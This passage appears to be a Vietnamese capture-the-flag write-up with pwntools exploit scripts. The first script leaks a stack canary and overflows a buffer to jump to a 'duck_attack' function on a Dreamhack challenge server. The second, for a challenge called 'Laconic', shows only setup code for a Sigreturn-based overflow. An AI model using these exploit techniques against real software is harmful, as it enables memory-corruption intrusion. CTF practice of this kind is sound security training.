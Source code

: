             c
            ''')
            input()

    if args.remote:
        p = remote('host3.dreamhack.games',18525)  
    else:
        p = process(exe.path) 



    #GDB()


    s(b'a'*89+b'Quack Quack ')

    p.recvuntil(b'the Duck!')
    p.recvuntil(b'Quack Quack ')

    canary = u64(b'\0' + p.recv(7))
    print("canary = " + hex(canary))

    pl = flat(
        b'c'*88,
        canary,
        0,
        exe.sym.duck_attack,
    )

    s(pl)

    p.interactive()

### Laconic
Lỗi buffer overflow dùng kỹ thuật Sigreturn
    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *
    from ctypes import cdll



    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./laconic', checksec=False)
    #libc = ELF('./libc-2.23.so', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc


    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())
